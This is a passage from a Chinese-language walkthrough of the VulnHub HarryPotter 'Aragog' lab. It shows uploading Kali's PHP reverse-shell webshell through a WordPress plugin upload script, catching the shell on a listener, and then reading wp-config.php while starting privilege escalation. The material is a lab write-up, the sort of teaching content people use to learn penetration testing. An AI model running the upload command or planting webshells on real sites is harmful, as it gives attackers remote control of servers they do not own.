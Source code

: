 可以查看该脚本文件，里面有用法

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\15.jpg)

在使用该脚本时，会有提示，需要先安装`jq`的，直接使用`apt`安装即可。检测到是有漏洞的，开始下一步

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\16.jpg)

首先这里确定是`php`脚本语言的，然后这里使用`kali`自带的一个`webshell`，路径在`/usr/share/webshell/php/php-reverse-shell.php`文件，修改其中的监听IP和端口即可

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\17.jpg)

执行`file.sh`脚本中的用法，进行上传

```shell
bash file.sh -u http://wordpress.aragog.hogwarts/blog -f /usr/share/webshells/php/php-reverse-shell.php --verbose
```



![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\18.jpg)



可以看到这里的提示，和用法中的一样，表示上传成功，使用`kali`开启监听`1234`端口，然后浏览器进行访问，可以发现成功反弹`shell`

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\19.jpg)



开始寻找文件，这里可以自己尝试获取交互式界面，我这里就不操作了，可以测试`python`或者`bash`和`sh`等

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\20.jpg)

# 提权

## 寻找wordpress目录

这里解密后说是"谁的日记被哈里在哪里秘密的摧毁了"，则，没有用处，发现在平常的`/var/www/html`目录下，并不存在`wordpress`的目录，使用`find`寻找，可以看到这里的有`wp`的一些常见目录，去目录下查看

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\21.jpg)

找对目录了

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\22.jpg)



查看配置文件`wp-config.php`

一直指向一个目录下的文件，等下去查看

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\23.jpg)

